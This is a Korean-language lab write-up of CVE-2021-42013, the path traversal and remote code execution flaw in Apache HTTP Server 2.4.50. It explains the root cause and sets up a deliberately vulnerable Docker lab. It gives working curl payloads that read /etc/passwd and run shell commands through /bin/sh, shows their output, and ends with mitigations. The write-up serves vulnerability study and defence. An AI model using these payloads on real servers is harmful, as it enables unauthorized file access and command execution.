


# CVE-2021-42013: Apache HTTP Server 2.4.50 Path Traversal & RCE

## 1. 요약

Apache HTTP Server 2.4.50의 URL 경로 정규화(path normalization) 로직 결함으로 발생하는 취약점이다. 인증 없이 원격에서 임의 파일 읽기(arbitrary file read)와 원격 코드 실행(RCE)이 가능하다. 이 취약점은 CVE-2021-41773(2.4.49)의 패치가 불완전하여 다시 우회된 사례다.

| 항목 | 내용 |
|---|---|
| CVE | CVE-2021-42013 |
| 대상 | Apache HTTP Server 2.4.49, 2.4.50 |
| 유형 | Path Traversal → Arbitrary File Read / RCE |
| 인증 | 불필요 (unauthenticated) |
| 벡터 | 원격 (network) |
| 패치 버전 | 2.4.51 |

## 2. 취약점 분석

### 2.1 근본 원인

Apache는 요청 URI를 처리할 때 퍼센트 인코딩(percent-encoding)을 디코딩하고 경로를 정규화한다. 2.4.49~2.4.50의 정규화 로직은 인코딩된 `.` 문자를 완전히 걸러내지 못한다. 그 결과 `..`(상위 디렉토리 이동)를 우회 생성할 수 있어, `Alias`로 매핑된 디렉토리 바깥의 파일까지 경로가 도달한다.

2.4.50은 앞선 CVE-2021-41773의 payload(`.%2e`)를 차단했으나 그 수정이 불완전했다. 그래서 한 번 더 인코딩한 payload로 우회되는 것이 CVE-2021-42013이다.

### 2.2 payload 원리 (`.%%32%65`)

핵심 조각은 `.%%32%65`다. 서버가 이를 디코딩하는 과정은 다음과 같다.

- `%32` → `2`, `%65` → `e` 로 디코딩된다.
- 즉 `.%%32%65` 는 디코딩 과정을 거쳐 `.%2e` → `..` 로 해석된다.
- 이 조각을 반복하면 디렉토리를 상위로 계속 거슬러 올라가 시스템 파일(`/etc/passwd`)이나 실행 파일(`/bin/sh`)에 도달한다.

`/icons/`, `/cgi-bin/` 처럼 실제 존재하는 디렉토리를 기점(prefix)으로 잡아야 정규화가 시작된다.

### 2.3 취약 조건 (misconfiguration이 아님)

이 실습 환경은 다음 두 조건을 갖는다.

- `mod_cgi` 활성화: path traversal이 `/bin/sh`에 도달했을 때 명령 실행(RCE)까지 이어지게 한다.
- `<Directory />` 에 `Require all granted`: 루트 디렉토리 접근을 허용한다.

이 두 조건은 취약점을 "노출/승격"시키는 환경 조건일 뿐이며, 취약점의 근본 원인은 아니다. 근본 원인은 어디까지나 Apache 코어의 URL 정규화 코드 결함이며, 이는 CVE 번호가 부여된 소프트웨어 취약점이다. 따라서 단순 오설정(misconfiguration)이 아니다. 파일 읽기(2.4)는 위 CGI 조건 없이도 성립한다.

### 2.4 Risk Score (CVSS 기준)

Docker 환경에서 실제로 확인된 동작을 기준으로 평가한다.

| 지표 | 값 | 근거 |
|---|---|---|
| 인증 필요 여부 | 불필요 (PR:N) | 자격증명 없이 요청만으로 성립 |
| 원격 악용 | 가능 (AV:N) | HTTP 요청 하나로 원격 수행 |
| 영향 범위 | 파일 읽기 + RCE | `/etc/passwd` 노출 및 `id` 명령 실행 확인 |
| 실제 확인 | O | 본 환경에서 2종 모두 재현됨 |

CVSS 3.1 벡터: `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` → Base Score 9.8 (Critical)

## 3. 환경 구성

### 3.1 요구 사항

- Docker / Docker Compose
- 리눅스 셸 환경 (Windows는 WSL2 bash 권장. cmd/PowerShell은 `%` 및 따옴표 처리가 달라 payload가 깨진다.)

### 3.2 파일 구조

```
.
├── docker-compose.yml   # image 방식 (build 불필요)
├── Dockerfile           # 취약 설정 근거 (분석용, 재현엔 미사용)
├── vuln-image.tar       # 완성 이미지 = 외부 의존 제거 핵심
├── README.md
├── 1.png                # 실행 결과: 파일 읽기
└── 2.png                # 실행 결과: RCE
```

### 3.3 docker-compose.yml

```yaml
services:
 apache:
   image: cve-2021-42013-submit-apache:latest
   ports:
    - "8080:80"
```

### 3.4 기동

Docker Hub 등 외부 이미지 서버에 의존하지 않고 재현하기 위해, 동봉한 완성 이미지를 로드한 뒤 실행한다. 이 이미지는 base(Apache 2.4.50) 위에 취약 설정(mod_cgi 활성화, `Require all granted`)까지 적용된 완성본이므로 별도 build가 필요 없다.

```bash
docker load -i vuln-image.tar
docker compose up -d
```

### 3.5 기동 확인

```bash
docker compose ps
curl -v http://localhost:8080/
```

응답에 `It works!`가 포함되면 환경이 정상 기동된 것이다.

## 4. 재현 절차 및 실행 결과

모든 명령은 리눅스(WSL2) bash에서 실행한다. `--path-as-is` 는 curl이 `..` 를 자체 정규화하여 payload를 무력화하는 것을 막으므로 반드시 포함한다.

### 4.1 PoC ① 임의 파일 읽기

```bash
curl -v --path-as-is 'http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'
```

실행 결과: 응답 body에 `/etc/passwd` 내용이 노출된다.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```



### 4.2 PoC ② 원격 코드 실행 (RCE)

```bash
curl -v --data 'echo;id' 'http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

실행 결과: POST body의 명령이 서버에서 실행되어 `id` 출력이 반환된다.

```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```



## 5. 대응 방안

### 5.1 근본 대응

- Apache HTTP Server를 2.4.51 이상으로 업그레이드한다. 해당 버전에서 경로 정규화 결함이 수정되었다.

### 5.2 완화책 (즉시 업그레이드가 어려운 경우)

- `<Directory />` 의 기본 정책을 `Require all denied` 로 유지하여 파일시스템 루트 접근을 차단한다.
- 불필요한 `mod_cgi` / `mod_cgid` 를 비활성화하여 파일 읽기가 RCE로 승격되는 경로를 제거한다.
- WAF 등에서 `%%32%65`, 다중 인코딩된 `..` 패턴을 탐지·차단한다. (단, 인코딩 변형이 많아 보조 수단으로만 사용한다.)

## 6. 참고

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://nvd.nist.gov/vuln/detail/CVE-2021-42013
